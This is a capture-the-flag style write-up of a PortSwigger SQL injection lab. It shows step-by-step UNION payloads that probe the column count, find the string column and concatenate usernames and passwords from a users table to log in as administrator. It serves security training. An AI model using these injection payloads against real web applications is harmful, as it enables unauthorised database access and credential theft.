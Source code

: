 ```yaml
---
title: PortSwigger - SQLi 6 - UNION attack, retrieving multiple values in a single column
date: 2023-03-06
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal 

The database contains a new table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## ✅ Solution

First we need to know how many columns are returned by the query:

````text
<website>/filter?category=Pets' UNION SELECT NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL--    # error!
````

We now know there are 2 columns. Time to test where is the string data:

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL--   # error!
<website>/filter?category=Pets' UNION SELECT NULL,'abc'--   # works
````

Ok the second column is a string one. To extract both users and passwords columns we will have to concatenate them into just one columns using the special operator `<string> || <string>` (can vary according to the DBMS).

Let’s try on the full request now:

````text
<website>/filter?category=Gifts' UNION SELECT NULL,username || '~' || password FROM users-- # administrator~password
````

